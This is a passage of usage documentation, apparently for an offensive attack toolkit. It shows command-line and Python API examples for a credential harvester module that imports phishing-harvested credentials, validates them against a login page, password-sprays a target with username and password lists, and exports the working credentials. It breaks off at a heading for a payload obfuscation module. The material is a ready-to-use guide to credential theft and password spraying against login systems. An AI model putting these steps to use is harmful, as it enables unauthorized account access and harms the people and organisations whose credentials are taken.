 **Usage:**

```bash
# Import from phishing harvest
python initial_access/credential_harvester.py --import-phishing harvested_creds.json

# Import from CSV
python initial_access/credential_harvester.py --import-csv creds.csv

# Validate credentials
python initial_access/credential_harvester.py --validate http://target.com/login

# Password spray
python initial_access/credential_harvester.py --spray http://target.com/login \
    --usernames users.txt --passwords passwords.txt

# Generate report
python initial_access/credential_harvester.py --report

# Export valid credentials
python initial_access/credential_harvester.py --export-csv valid_creds.csv --valid-only
```

**Python API:**

```python
from initial_access.credential_harvester import CredentialHarvester

harvester = CredentialHarvester('credentials.json')

# Add credential
harvester.add_credential('user@example.com', 'password123', source='phishing')

# Import from phishing
harvester.import_from_phishing('harvested_creds.json')

# Validate credentials
harvester.validate_credentials(validation_url='http://target.com/login')

# Password spray
valid_creds = harvester.password_spray(
    'http://target.com/login',
    ['user1@example.com', 'user2@example.com'],
    ['Password123', 'Summer2024']
)

# Generate report
print(harvester.generate_report())

# Export
harvester.export_to_csv('output.csv', valid_only=True)
```

### 8. Payload Obfuscation (`utils/obfuscation.py`)
